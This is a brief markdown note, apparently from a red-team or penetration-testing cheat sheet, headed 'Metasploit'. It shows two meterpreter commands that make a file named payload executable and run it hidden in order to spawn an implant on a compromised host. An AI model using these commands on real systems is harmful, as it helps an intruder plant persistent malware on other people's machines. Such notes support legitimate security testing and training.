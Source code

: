 # Metasploit

Spawn implant by executing the payload.

```
meterpreter > chmod 777 payload

meterpreter > execute -Hicf ./payload
```